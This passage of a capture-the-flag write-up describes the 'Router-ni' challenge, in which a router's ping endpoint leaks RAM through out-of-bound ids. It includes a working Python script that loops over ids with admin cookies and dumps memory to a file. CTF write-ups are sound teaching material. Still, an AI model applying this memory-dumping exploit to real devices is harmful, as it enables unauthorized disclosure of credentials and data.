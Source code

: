 After getting the admin's token, we just needed to get the flag from `/api/flag`.

## Router-ni \[81]

### Credits

Thanks to Lord\_Idiot, waituck, bbbb and Gladiator for working on this challenge! :tada:

### TL;DR

The webpage provides an interface to a router, which includes a ping functionality.

![](<../.gitbook/assets/image (82) (2).png>)

Using the `/ping?id=` endpoint, we get the base64-encoded result of each ping request. Using a sufficiently large `id`, we could get an out-of-bound memory read.

### Solution

By enumerating the `id`, we would find that the ID range that corresponds to the router's RAM is from `18446744073709551463` to `18446744073709551615`. We could dump out the entire RAM this way.

```python
import requests
import base64

URL = "http://router-mlb4ta7v3lwam.shellweplayaga.me:31337/ping?id="
cookies = {'password': 'admin', 'username': 'admin'}

id = 18446744073709551463
decoded = b""

for i in range(152):
    r = requests.get(f"{URL}{id+i}", cookies=cookies)
    data = r.json()
    res = data["result"]
    decoded += base64.b64decode(res)

with open("out.bin", "wb+") as f:
    f.write(decoded)
```
